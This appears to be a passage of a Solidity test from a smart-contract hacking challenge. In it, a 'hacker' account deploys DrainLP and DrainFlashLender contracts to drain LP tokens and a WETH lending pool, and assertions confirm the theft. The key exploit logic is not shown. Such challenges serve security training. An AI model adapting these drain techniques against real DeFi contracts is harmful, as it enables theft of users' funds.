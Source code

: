 ```solidity
        // Provide hacker with some ETH to start with
        deal(hacker, 10 ether);
    }

    function testHack() public {
        uint lendingPoolWethBalance = weth.balanceOf(address(wethLendingPool));
        
        vm.startPrank(hacker, hacker);

        //Your Solution        

		// 1. drain all LP tokens 
		{
			DrainLP c = new DrainLP{value: address(hacker).balance}(
				wethLendingPool, swapPoolEthWeth, lpToken, weth, metaToken);
			c.attack();
		}


		// 2. drain the lender pool
		{
			DrainFlashLender c = new DrainFlashLender(
				wethLendingPool, weth);
			c.attack();
			weth.withdraw(weth.balanceOf(hacker));
		}


        vm.stopPrank();

        assertLt(weth.balanceOf(address(wethLendingPool)), lendingPoolWethBalance, "Did not steal WETH from LendingPool");
        assertApproxEqAbs(lpToken.balanceOf(address(metaToken)), 0, 1e5, "Did not completely drain LP tokens from MetaPoolToken");
        assertApproxEqRel(address(hacker).balance / weth.balanceOf(address(wethLendingPool)), 200, 5, "Did not obtain approx. 200x as much ETH as the final WETH lending pool balance");
    }
}

contract DrainLP is IERC3156FlashBorrower {
    ILendingPool  public wethLendingPool;
    CurvePool     public swapPoolEthWeth;
    CurveToken    public lpToken;
    IWETH         public weth;
    MetaPoolToken public metaToken;

	address hacker;

	constructor(
		ILendingPool  a1,
		CurvePool     a2,
		CurveToken    a3,
		IWETH         a4,
		MetaPoolToken a5
	) payable {
		hacker          = msg.sender;

		wethLendingPool = a1;
		swapPoolEthWeth = a2;
		lpToken         = a3;
		weth            = a4;
		metaToken       = a5;
	}
```